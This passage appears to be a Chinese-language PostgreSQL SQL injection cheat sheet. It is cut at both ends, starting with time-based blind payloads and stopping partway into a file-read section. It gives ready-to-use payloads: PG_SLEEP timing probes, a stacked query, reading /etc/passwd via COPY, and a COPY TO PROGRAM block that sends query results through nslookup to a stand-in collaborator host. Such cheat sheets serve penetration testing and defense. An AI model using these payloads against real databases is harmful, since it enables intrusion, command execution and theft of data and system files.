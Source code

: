 ```sql
AND 'RANDSTR'||PG_SLEEP(10)='RANDSTR'
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL 外部连接注入

PostgreSQL 的外部连接注入依赖于可以与文件系统或网络交互的功能，如 `COPY`、`lo_export` 或扩展中的函数，这些函数可以执行网络操作。其思想是利用数据库将数据发送到其他地方，攻击者可以监控和拦截。

```sql
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

## PostgreSQL 堆叠查询

使用分号 "`;`" 添加另一个查询

```sql
SELECT 1;CREATE TABLE NOTSOSECURE (DATA VARCHAR(200));--
```

## PostgreSQL 文件操作

### PostgreSQL 文件读取

注意：较早版本的 Postgres 在 `pg_read_file` 或 `pg_ls_dir` 中不接受绝对路径。较新版本（自 [0fdc8495bff02684142a44ab3bc5b18a8ca1863a](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) 提交起）将允许超级用户或 `default_role_read_server_files` 组中的用户读取任何文件/文件路径。

* 使用 `pg_read_file` 和 `pg_ls_dir`

    ```sql
    select pg_ls_dir('./');
    select pg_read_file('PG_VERSION', 0, 200);
    ```

* 使用 `COPY`

    ```sql
    CREATE TABLE temp(t TEXT);
    COPY temp FROM '/etc/passwd';
    SELECT * FROM temp limit 1 offset 0;
    ```

* 使用 `lo_import`
